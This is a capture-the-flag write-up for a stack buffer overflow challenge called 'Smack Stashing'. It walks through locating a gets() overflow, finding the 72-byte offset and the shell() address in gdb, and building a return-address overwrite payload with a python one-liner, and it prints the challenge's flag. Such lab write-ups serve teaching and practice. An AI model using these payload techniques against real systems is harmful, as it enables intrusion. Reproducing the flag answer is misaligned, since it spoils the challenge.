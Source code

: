 ### **Challenge Name: Exploit 100 - Smack Stashing**

---

### **Description**

This challenge pays homage to the golden days of stack smashing and buffer overflow vulnerabilities. Inspired by Aleph One's legendary article *"Smashing The Stack For Fun And Profit"* in Phrack #49, the challenge is a faithful reproduction of a classic exploit scenario.

#### **Files Provided**  
- [Exploit100-3](Resources/Exploit100-3)  
- [Exploit100-3.c](Resources/Exploit100-3.c)

---

### **Approach**

#### **Step 1: Analyze the Source Code**
The provided C source code (`Exploit100-3.c`) reveals a `shell()` function that executes a `/bin/sh` shell using `system()`. The presence of a vulnerable `gets()` function signals a classic stack smashing opportunity.

#### **Step 2: Set Up Environment**
Enable core dumps to analyze crashes:
```bash
ulimit -c unlimited
```

#### **Step 3: Trigger Buffer Overflow**
Executed the program and injected increasing input sizes to locate the exact offset for buffer overflow:
```bash
python -c "print('a'*72)" | ./Exploit100-3
```
Segmentation fault occurred at **72 bytes**, confirming the buffer size.

#### **Step 4: Find `shell()` Address**
Using `gdb`, identified the address of the `shell()` function:
```bash
gdb ./Exploit100-3
break shell
run
info functions
```
Address: `0x0000000000401166`

#### **Step 5: Craft Exploit Payload**
Constructed the payload:
1. **Padding:** 72 `A`s to overwrite the buffer.
2. **Address:** `shell()` function address in little-endian format.

Final payload:
```python
python -c "print('a'*72 + '\x66\x11\x40\x00\x00\x00\x00\x00')" | ./Exploit100-3
```

#### **Step 6: Obtain Flag**
Once in the shell, navigated to the flag file:
```bash
ls
cd /home/Exploit100-3
cat Exploit100-3_flag.txt
```

---

### **Flag**

`poctf{uwsp_br4v3_n3w_w0rld}`

---
